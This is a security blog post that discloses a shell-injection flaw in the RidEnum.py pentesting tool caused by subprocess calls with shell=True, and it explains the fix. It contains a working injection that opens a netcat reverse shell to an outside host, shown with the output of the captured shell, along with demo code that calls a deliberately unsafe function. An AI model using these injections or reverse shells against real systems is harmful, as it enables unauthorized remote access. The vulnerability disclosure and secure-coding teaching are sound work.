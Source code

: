 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Pwning A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me get all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals or groups can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the drug or alcohol choice of the individual/group was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
 
The links above focus more in which a user is prompted to provide input via the `input` function in Python. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as a vast majority of Linux machines will probably not have this tool installed. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the Domain SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool is using `Subprocess.Popen` objects to execute a shell command. These appear on the following lines:
 * 62
 * 78
 * 111
 * 256

There is at least one argument that helped me obtain code execution, which was the argument for the rhost's IP address. It also looks like the `auth` argument is a possibility, but I've had no luck with using it. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (or optional username argument) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little tricker. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of crap after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject the bash command `id`.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
ls
CHANGELOG.txt
LICENSE.txt
README.md
ridenum.py
```

Note how I placed the `nc` command with the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after `-c bash` will keep the reverse shell alive until you exit it.

## The Fix
Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. In addition, breaking down the string in referenced by the`command` variable into a list of strings would fix the issue also as this wouldn't treat each subsquent string as an argument to the string in the first indice. 

For example changing `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "\"{}\"".format(auth), "{}".format(ip), "-c", "\"lsaquery\""], stdout=subprocess.PIPE)` removes the chance for command injection.


#### You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```
